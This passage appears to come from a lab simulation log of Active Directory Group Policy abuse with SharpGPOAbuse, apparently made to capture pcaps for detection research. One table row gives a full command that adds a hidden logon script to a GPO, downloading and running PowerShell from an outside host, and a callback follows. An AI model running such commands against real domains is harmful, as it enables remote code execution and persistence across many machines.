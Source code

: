 **Tool**
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse/tree/d099eb9bc79059a2bfd25a30802bb73cf913d52f)


| Time  | Command   | Description   |
|:---------|:----|:----|
| 2022-12-22T04:56:49+00:00  | `execute-assembly /home/kali/Downloads/SharpGPOAbuse.exe --AddUserScript --ScriptName "Evil_script.bat" --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://100.100.100.100:80/a'))\"" --GPOName "Finance User GPO"` | Add a New User Logon Script |
| 2022-12-22T04:59:15+00:00 | callback | callback from logon script |

---

![](assets/logon_script_gpo_view.png)







## [](#header-2)Simulation - Machine Startup Script
Pcap - 2023-01-05-gpoproject-sharpGPOAbuse-machine-startup.pcap

**Attacker**
- IP: 192.168.200.55
    - OS: Kali Linux

**Victim**
- IP: 192.168.200.11
    - OS: Windows Server 2019
    - OSVersion: 10.0.17763

- IP: 192.168.200.101
    - OS: Windows 10 Pro
    - OS Version: 19044.1706

